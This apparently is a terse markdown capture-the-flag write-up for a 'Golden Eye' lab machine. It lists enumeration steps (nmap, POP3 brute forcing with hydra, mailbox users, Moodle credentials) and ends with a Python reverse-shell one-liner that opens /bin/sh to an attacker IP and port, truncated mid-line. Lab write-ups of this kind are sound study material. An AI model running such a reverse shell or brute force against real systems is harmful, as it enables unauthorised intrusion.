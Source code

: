 # Golden Eye

## Enumeration

### Namp scan

scan result is here [scan](nmap/all_port)

### http Enumeration

- username
- login creds
  
### Pop 3 numeration

- telnet
- hydra brute force
- boris@ubuntu, natalya@ubuntu, alec@janus.boss [read msg]
- hostname : severnaya-station.com

### Moodle App Enumeration

- Dr Doak
- creds

## Exploitaion

### Rshell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.183",3301));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]

